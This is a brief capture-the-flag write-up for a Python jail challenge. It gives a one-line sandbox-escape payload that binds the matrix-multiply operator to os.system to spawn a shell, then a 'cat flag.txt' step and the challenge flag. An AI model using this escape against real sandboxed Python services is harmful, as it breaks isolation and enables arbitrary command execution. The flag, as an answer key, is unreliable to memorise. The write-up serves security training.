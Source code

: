 # J4iL

## Write-up
- You have to open shell ***sh*** using the following inputs:
- `[x:=type('class',(),{}),setattr(x,'__matmul__',__builtins__["__loader__"].load_module("sys").modules['os'].system),x()@'sh']`
- then use `cat flag.txt` to open the flag
## Flag

`shellmates{4RG5_w17H_m47r1x_MUL71PL1C471oN}`

